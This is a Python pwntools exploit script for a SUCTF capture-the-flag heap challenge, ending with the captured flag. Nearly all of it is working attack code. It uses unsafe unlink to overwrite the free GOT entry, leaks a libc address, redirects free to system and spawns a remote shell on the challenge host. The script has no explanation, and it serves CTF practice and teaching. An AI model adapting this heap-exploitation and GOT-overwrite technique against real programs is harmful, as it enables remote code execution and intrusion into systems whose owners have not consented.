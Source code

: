 #!/usr/bin/python
from pwn import *
host = 'pwn.suctf.asuri.org'
port = 20004
r = remote(host, port)
def create(length, name):
    r.recvuntil('4:edit')
    r.sendline('1')
    r.recvuntil('input len')
    r.sendline(str(length))
    r.recvuntil('your data')
    if(len(name) == length):
        r.send(name)
    else:
        r.sendline(name)
def delete(idx):
    r.recvuntil('4:edit')
    r.sendline('2')
    r.recvuntil('input id')
    r.sendline(str(idx))
def show(idx, wait=False):
    if(wait):
        r.recvuntil('4:edit')
        r.recvuntil('4:edit', timeout=1)
    else:
        r.recvuntil('4:edit')
    r.sendline('3')
    r.recvuntil('input id\n')
    r.sendline(str(idx))
def edit(idx, name, length):
    r.recvuntil('4:edit')
    r.sendline('4')
    r.recvuntil('input id')
    r.sendline(str(idx))
    r.recvuntil('your data')
    if(len(name) == length):
        r.send(name)
    else:
        r.sendline(name)
heap_form = 0x6020c0
free_got = 0x0000000000602018
free = 0x00000000000844f0
system = 0x0000000000045390 
create(0x98, '1') # 0
create(0x98, '1') # 1
create(0x98, '1') # 2
create(0x98, '1'*0x98) # 3
create(0x98, '1') # 4
edit(3, (p64(0x90 + 0x10 + 0x10) + p64(0x90) + p64(heap_form + 0x18 - 0x18) + p64(heap_form + 0x18 - 0x10)).ljust(0x90, 'a') + p64(0x90) + '\xa0', 0x98 + 1)
delete(4)
edit(3, p64(free_got)[:4], 4)
show(0, True)
libc = r.recvuntil('1:creat')[:-7]
print (len(libc))
libc = u64(libc.strip().ljust(8, '\x00'))
print ('libc : ', hex(libc))
real_system = system + libc - free
print ('system : ', hex(real_system))
edit(0, p64(real_system)[:-2], 6)
r.recvuntil('4:edit')
r.sendline('/bin/sh\x00')
r.interactive()
flag : SUCTF{L1gFhAuay4qe29EJrP1MyVWoTGSXJiAzDFdnZLZtTbHKeP2j6bLc}